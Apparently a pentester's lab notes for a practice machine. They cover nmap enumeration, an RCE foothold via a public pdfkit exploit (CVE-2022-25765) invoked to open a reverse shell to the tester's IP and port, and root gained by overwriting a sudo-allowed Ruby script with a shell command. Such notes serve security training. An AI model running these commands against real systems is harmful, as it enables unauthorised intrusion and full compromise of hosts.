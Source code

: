 ### Enumeration
```
IP=192.168.158.22
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,3000 -A $IP
```
#### Ports 
- 22
- 3000
### Foothold
- 3000
	- Default page
		- ![[Pasted image 20240624115959.png]]
		- google: rubydome html to pdf exploit
			- pdfkit - https://github.com/UNICORDev/exploit-CVE-2022-25765
			- Exploit-db - 51293
			- python3 51293.py -s 192.168.45.195 4444 -w http://192.168.158.22:3000/pdf -p url
			- This gives us RCE
	- dirsearch -u http://$IP:3000
		- nothing
	- burpsuite request
		- /pdf
		- parameter: url
### PE
#### Linux
- id
	- uid=1001(andrew) gid=1001(andrew) groups=1001(andrew),27(sudo)
- sudo -l
	- (ALL) NOPASSWD: /usr/bin/ruby /home/andrew/app/app.rb
		- ls -la /home/andrew/app/app.rb
			- -rwxrwx--- 1 andrew andrew 1032 Apr 24  2023 /home/andrew/app/app.rb
			- chmod 777 /home/andrew/app/app.rb
			- echo 'exec "/bin/sh"' > app.rb
			- sudo /usr/bin/ruby /home/andrew/app/app.rb
				- now rooted
	- secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,use_pty
### Lessons Learned
- Take note of the url you are trying to abuse. Can be done from burp
- Take a look at sudo -l and try to overwrite the file
